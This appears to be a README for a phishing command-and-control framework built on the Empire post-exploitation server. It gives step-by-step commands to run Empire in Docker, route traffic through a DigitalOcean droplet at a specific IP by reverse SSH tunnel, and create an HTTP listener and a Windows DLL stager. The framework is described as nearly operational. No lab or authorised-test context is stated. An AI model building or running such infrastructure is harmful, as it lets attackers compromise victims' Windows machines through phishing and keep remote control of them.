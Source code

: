 # 🎯 Advanced Steganography C2 Framework - START HERE

## 📍 You Are Here

You have a sophisticated C2 framework with multiple components that are **95% complete**. The only blocker is getting Empire server running properly.

## 🚀 QUICKEST PATH TO OPERATIONAL (30 minutes)

### Step 1: Start Empire via Docker (5 min)
```bash
cd /home/kali/Main\ C2\ Framework/advanced-steganography-phishing

# Pull and run Empire
docker pull bcsecurity/empire:latest
docker run -d --name empire -p 1337:1337 -p 5000:5000 bcsecurity/empire:latest

# Wait for startup
sleep 30

# Verify it's working
curl http://127.0.0.1:1337/api/v2/meta/version
```

### Step 2: Configure nginx on Digital Ocean (10 min)
```bash
# SSH to your droplet
ssh root@161.35.155.3

# Run the nginx setup script
# (See DEPLOYMENT_GUIDE.md for full script)
```

### Step 3: Setup SSH Tunnel (2 min)
```bash
# From your Kali machine, in a new terminal
ssh -R 1337:localhost:1337 -R 5000:localhost:5000 root@161.35.155.3
```

### Step 4: Create Listener & Generate Stagers (10 min)
```bash
# Access Empire CLI
docker exec -it empire powershell-empire client

# Create listener
uselistener http
set Host https://161-35-155-3.sslip.io
execute

# Generate stager
usestager windows/dll
set OutFile /tmp/empire.dll
execute
```
